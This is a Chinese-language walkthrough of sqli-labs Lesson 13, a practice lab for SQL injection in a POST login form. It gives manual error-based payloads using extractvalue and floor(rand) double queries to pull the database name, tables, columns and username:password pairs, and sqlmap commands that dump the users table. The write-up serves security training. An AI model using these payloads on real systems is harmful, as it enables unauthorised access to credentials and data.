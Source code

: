 ```yaml
---
title: sqli-labs-lession 13 POST单引号双注入变形
date: 2018-09-27 14:01:58
tags: [sqli-labs]
categories: sql注入
---
```

# sqli-labs-lession 13 POST单引号双注入变形 #
---

## 登录界面 ##

![1](/img/sql/Lesson-13/1.png)

## 手注 ##

### 判断类型 ###

`'`检验是否报错

![2](/img/sql/Lesson-13/2.png)

返回报错信息

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''') and password=('') LIMIT 0,1' at line 1`

根据报错信息,很明显和Lesson-12课一样变量应该像`('$uname')`闭合起来。经过检验发现输入不存在的账号密码只会显示登录失败图片,登录成功也只显示成功图片。这里可以利用像Lesson-5一样利用报错显示信息。

### 获取字段数 ###

hackbar又不好用了。又要在表单里输入...

`xxx') order by 100#`

![3](/img/sql/Lesson-13/3.png)

`xxx') order by 2#`

无错误信息

![4](/img/sql/Lesson-13/4.png)

字段数为2。

### 获取数据库 ###

* extractvalue

函数解释：

extractvalue()：从目标XML中返回包含所查询值的字符串。
　　
EXTRACTVALUE (XML_document, XPath_string); 

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc 

第二个参数：XPath_string (Xpath格式的字符串)

concat:返回结果为连接参数产生的字符串。

extract的第二个参数要求是xpath格式字符串,当输入xpath格式字符串就会报错,并把错误原因显示。但是限制长度是32位。

`xxx') and extractvalue(null,concat(0x7e,(select database()),0x7e))#`

![5](/img/sql/Lesson-13/5.png)

### 获取表 ###

`xxx') and extractvalue(null,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))#`

![6](/img/sql/Lesson-13/6.png)

### 获取列 ###

`xxx') and extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e))#`

![7](/img/sql/Lesson-13/7.png)

### 获取值 ###

`xxx') and extractvalue(null,concat(0x7e,(select group_concat(username,':',password) from security.users),0x7e))#`

![8](/img/sql/Lesson-13/8.png)

这个时候这个函数的弊端就显示出来了,只显示了32个字符长度的信息。

修改payload。

`xxx') union select count(*),concat((floor(rand(0)*2)),'--',(select concat(username,':',password) from security.users limit 0,1))a from information_schema.tables group by a#`

![9](/img/sql/Lesson-13/9.png)

逐行查看。

## SQLMAP ##

firefox设置代理,再用Burpsuite抓包。

--technique E 

使用报错型注入

`sqlmap -r sqlpost/post13.txt -p uname --dbs --threads 10 --technique E`

![10](/img/sql/Lesson-13/10.png)

`sqlmap -r sqlpost/post13.txt -p uname -D security -T users --columns --dump`

![11](/img/sql/Lesson-13/11.png)








